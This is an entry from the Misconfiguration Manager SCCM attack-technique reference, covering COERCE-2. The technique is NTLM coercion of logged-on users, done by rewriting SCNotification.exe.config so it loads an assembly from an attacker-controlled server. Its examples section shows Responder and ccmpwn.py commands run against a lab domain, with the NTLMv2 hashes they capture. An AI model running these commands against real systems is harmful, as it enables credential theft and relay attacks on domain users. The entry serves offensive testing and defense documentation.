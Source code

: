 ```yaml
---
title: 'COERCE-2'
description: 'NTLM coercion of currently logged on users via AppDomainManager injection'
source: 'subat0mik/Misconfiguration-Manager'
---
```


## MITRE ATT&CK TTPs
- [T1574.014](https://attack.mitre.org/techniques/T1574/014/) - Hijack Execution Flow

## Requirements
- Administratiive privileges on the SCCM client

## Summary
The CcmExec service executes SCNotification.exe for every user logged onto the SCCM client. Since SCNotification.exe is a .NET application, its configuration file can be modified to point to a .NET assembly on a UNC path, resulting in NTLM authentication coercion.

This technique requires administrative privileges on the SCCM client to overwrite the .NET assembly's configuration file (i.e., `C:\Windows\CCM\SCNotification.exe.config`).

Once the file is overwritten, the CcmExec service can be restarted to trigger the SCNotification.exe to attempt to load the remote assembly from an attacker-controlled server. The authentication can be coerced via SMB or HTTP.

This is automated by CcmPwn's `coerce` command.

Note: Rather than performing coercion, a payload can be uploaded and configured in SCNotification.exe.config to achieve code execution in the user context.

## Impact
This technique provides a method to compromise logged on users through NTLM relay or NetNTLM hash cracking.

## Defensive IDs
Andrew provides defensive considerations in his blog post on this topic. Since these detections are not SCCM-specific, we have not included them in Misconfiguration Manager but they can be found [here](https://web.archive.org/web/20250222182108/https://cloud.google.com/blog/topics/threat-intelligence/windows-session-hijacking-via-ccmexec#:~:text=Defensive%20Considerations).

## Examples
### CcmPwn Coerce
First, setup a listener such as Responder or ntlmrelayx. Here we use Responder:
```
┌──(kali㉿SCCM1-kali)-[~/impacket]
└─$ sudo responder -A -I eth0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

<...SNIP...>

[+] Listening for events...    
```

Next, run `ccmpwn.py` with administrative credentials:
```
┌──(impacket)─(kali㉿SCCM1-kali)-[~/impacket/ccmpwn]
└─$ python3 ccmpwn.py ludus/domainadmin:'password'@10.2.10.11 coerce -computer 10.2.10.99 -method smb
____ ____ _  _ ___  _ _ _ _  _                                                                                                                                                                                                                         
|    |    |\/| |__] | | | |\ |                                                                                                                                                                                                                         
|___ |___ |  | |    |_|_| | \|                                                                                                                                                                                                                                        
v1.0.0                                                                                                                                                               
[*] Downloading original SCNotification.exe.config via SMB
[*] Uploading malicious SCNotification.exe.config via SMB
[*] Stopping CcmExec service. Waiting 20 seconds to restart service.
[*] Starting CcmExec service. Wait around 30 seconds for SCNotification.exe to run config file.
[*] Cleaning up SCNotification.exe.config     
```

Now wait for `ccmpwn.py` to restart the service and capture/relay the incoming NTLM authentication:
```
[SMB] NTLMv2-SSP Client   : 10.2.10.11
[SMB] NTLMv2-SSP Username : ludus\domainadmin
[SMB] NTLMv2-SSP Hash     : domainadmin::ludus:03489dd2ad202a57:6EFA74B3414AD598D2A8EADB735C48CD:01010000000<...SNIP...>030002E0032002E00310030002E00390039000000000000000000                    
[SMB] NTLMv2-SSP Client   : 10.2.10.11
[SMB] NTLMv2-SSP Username : ludus\domainuser
[SMB] NTLMv2-SSP Hash     : domainuser::ludus:5faf4f644ffb9899:5CF9B8944938B83B6BF5BF13019D53B1:010100000000<...SNIP...>030002E0032002E00310030002E00390039000000000000000000   
```

## References
- Andrew Oliveau, [SeeSeeYouExec: Windows Session Hijacking via CcmExec](https://cloud.google.com/blog/topics/threat-intelligence/windows-session-hijacking-via-ccmexec)
- Andrew Oliveau, [ccmpwn](https://github.com/mandiant/ccmpwn)
- lgandx, [Responder](https://github.com/lgandx/Responder)
- Fortra, [ntlmrelayx](https://github.com/fortra/impacket/blob/a63c6522d694a73195e15958734df7de53b43c11/examples/ntlmrelayx.py)